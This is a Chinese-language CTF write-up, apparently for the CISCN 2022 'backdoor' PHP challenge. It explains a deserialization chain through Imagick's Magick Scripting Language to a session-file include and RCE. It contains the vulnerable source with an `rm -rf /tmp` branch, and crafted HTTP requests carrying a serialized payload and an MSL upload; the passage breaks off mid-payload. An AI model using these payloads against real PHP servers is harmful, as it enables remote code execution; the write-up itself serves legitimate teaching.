 ```php
$data = $_REQUEST['data'];

switch ($cmd) {
    case 'unserialze':
        unserialize($data);
        break;

    case 'rm':
        system("rm -rf /tmp");
        break;

    default:
        highlight_file(__FILE__);
        break;
}
```

存在反序列化漏洞，以及一个`backdoor`类。类中有两个特殊结构：

1. 在`__wakeup`可以执行一次任意无参函数的结构。
2. 在`__sleep`可以将任意文件包含。

`include`临时文件或者`session`即可`rce`，考虑如何触发`__sleep`。通过php内核源码可知，当前环境下唯一存在序列化的地方就是`session`，所以要想办法控制`session`数据。

接下来尝试触发`phpinfo`，收集信息。可以发现网站存在`imagick`扩展。 [![1](https://github.com/AFKL-CUIT/CTF-Challenges/raw/master/CISCN/2022/backdoor/writup/img/phpinfo.png)](https://github.com/AFKL-CUIT/CTF-Challenges/blob/master/CISCN/2022/backdoor/writup/img/phpinfo.png)

那么接下来就是利用imagick扩展的特性进行攻击。

根据这篇[文章](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)发现，`imagick`类在初始化时可以执行`Magick Scripting Language`。那么考虑用其特性，在临时文件中写入`Magick Scripting Language`，然后在`imagick`类初始化的时候执行临时文件写入`session`文件。再触发`__sleep`包含`session`文件以`RCE`。

写入文件时须注意以下几点：

1. 因为`imagick`对文件格式解析较严，需要写入的文件必须是其支持的图片格式，如jpg、gif、ico等。如果直接插入`session`数据，会导致解析图片错误，导致文件无法写入。
2. `php`对`session`的格式解析也较为严格。数据尾不可以存在脏数据，否则`session`解析错误会无法触发`__sleep`。

所以我们需要找到一个容许在末尾添加脏数据，且脏数据不会被`imagick`抹去的图片格式。`imagick`共支持几十种图片格式，

找到一个这样的图片格式并不难。最后发现可以使用`ppm`格式，其不像其他图片格式存在`crc`校验或者在文件末尾存在`magic`头。结构十分简单，可以进行利用。

首先利用网站提供的功能，删除`/tmp`下的文件。

```
GET /?cmd=rm HTTP/1.1
Host: 127.0.0.1:18080
Accept: */*
```

然后如下发包。这样`imagick`就会开始执行`Magick Scripting Language`，写入文件`/tmp/sess_afkl`。

```
POST /?data=O%3A8%3A%22backdoor%22%3A3%3A%7Bs%3A14%3A%22%00backdoor%00argv%22%3Bs%3A17%3A%22vid%3Amsl%3A%2Ftmp%2Fphp%2A%22%3Bs%3A15%3A%22%00backdoor%00class%22%3Bs%3A7%3A%22imagick%22%3Bs%3A12%3A%22do_exec_func%22%3Bb%3A0%3B%7D&cmd=unserialze HTTP/1.1
Host: 127.0.0.1:18080
Accept: */*
Content-Length: 703
Content-Type: multipart/form-data; boundary=------------------------c32aaddf3d8fd979

--------------------------c32aaddf3d8fd979
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
```